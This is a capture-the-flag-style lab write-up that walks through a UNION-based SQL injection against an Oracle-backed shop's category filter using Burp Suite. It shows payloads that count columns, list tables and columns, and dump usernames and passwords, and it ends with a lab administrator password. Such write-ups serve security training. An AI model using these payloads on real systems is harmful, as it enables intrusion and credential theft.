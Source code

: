 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 6
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/097e09a8-3611-44ad-8c63-4cdee0f5ac0c)

Let's filter for `Accessories`.

![2](https://github.com/Knign/Write-ups/assets/110326359/0ea53d5a-277e-4d72-a3eb-1aead2238d54)

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.


Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT 'test' FROM dual--
```

![4](https://github.com/Knign/Write-ups/assets/110326359/4c2de013-63ad-4250-9d58-132cf7b99bd1)

Since the application returns an error, we know that the number of columns in the current query is more than 1.

Let's set the `category` parameter to the following:

```
' UNION SELECT 'test', 'test' FROM dual--
```

![5](https://github.com/Knign/Write-ups/assets/110326359/11d7a47e-8762-4bf1-8094-2ae800bc1515)

Now that we know the current query has two columns, we can start enumerating the tables.

```
' UNION SELECT table_name, NULL FROM all_tables--
```

![6](https://github.com/Knign/Write-ups/assets/110326359/9e7cb098-497e-4323-92aa-aed45433158b)

Next, we need to find the columns present in the `USERS_EABGJF` table.

We can do that by setting the `category` parameter to the following:

```
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_EABGJF'--
```

![7](https://github.com/Knign/Write-ups/assets/110326359/0d024248-6cde-4535-a7a6-cebd2d18a213)

We can now retrieve the usernames and password from the `USERNAME_LIVOZB` and `PASSWORD_XJPXQQ` columns respectively.

For that we have to set the `category` parameter to the following:

```
' UNION SELECT USERNAME_LIVOZB, PASSWORD_XJPXQQ FROM USERS_EABGJF--
```

![8](https://github.com/Knign/Write-ups/assets/110326359/959d1a57-c6a4-451d-8eab-ca633d6fcb94)

We can now login as the administrator using the following credentials:

| Username | Password |
| -------- | -------- |
| administrator         | ayzzulz0enewtllx1szu         |

![9](https://github.com/Knign/Write-ups/assets/110326359/19c90da4-19dc-4d5f-8dd5-0c91f2366e30)

We have solved the lab

![10](https://github.com/Knign/Write-ups/assets/110326359/2a37599b-f7ee-45f3-af07-e35b06fef02d)
